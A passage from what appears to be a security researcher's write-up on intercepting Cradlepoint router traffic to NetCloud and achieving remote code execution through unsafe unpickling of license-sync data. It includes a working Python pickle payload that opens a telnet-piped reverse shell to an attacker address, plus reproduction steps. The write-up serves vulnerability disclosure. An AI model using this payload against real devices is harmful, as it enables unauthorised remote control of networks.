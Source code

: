 You should now see some decrypted NetCloud traffic. If you don't, make sure the device is registered (see [above](#device-registration-with-netcloud)).

## NetCloud RCE

By analyzing the NetCloud traffic, I noticed that the router engages in a license sync from time to time. The license is sent as a `pickled` Base64 encoded byte stream. Here's an example:

```
{'command': 'post', 'args': {'queue': 'license_sync', 'id': 'xxx', 'value': {'success': True, 'data': 'gAJ9[...]=='}}}
```

The Python `pickle` module implements binary protocols for serializing and de-serializing a Python object structure. There's a big warning in the [Python documentation](https://docs.python.org/3/library/pickle.html):

{{< box warning >}}
**Warning**: The pickle module **is not secure**. Only unpickle data you trust.

It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**.

Never unpickle data that could have come from an untrusted source, or that could have been tampered with.
{{< /box >}}

As we control the communication channel, it's trivial to inject our own malicious pickle data to achieve remote code execution on the router's and/or NetCloud's side. For example, we can use this simple payload to get a reverse shell:

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('telnet 192.168.1.200 8080 | /bin/bash | telnet 192.168.1.200 8081')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(pickled)
```

I actually didn't run the attack against NetCloud servers, but I was able to get a reverse shell on the router (the license file is sent in both directions).

To reproduce the attack, just go through the following steps (**note**: not sure if this still works in June 2024 :skull:):

0) Grab a rooted Cradlepoint router and set up your MITM box (see [above](#mitm-netcloud-traffic-with-mitmproxy))

1) Next, adapt the `_ATTACKER_IP` and `_ATTACKER_PORT` variables in my `mitmproxy_netcloud_rce.py` script
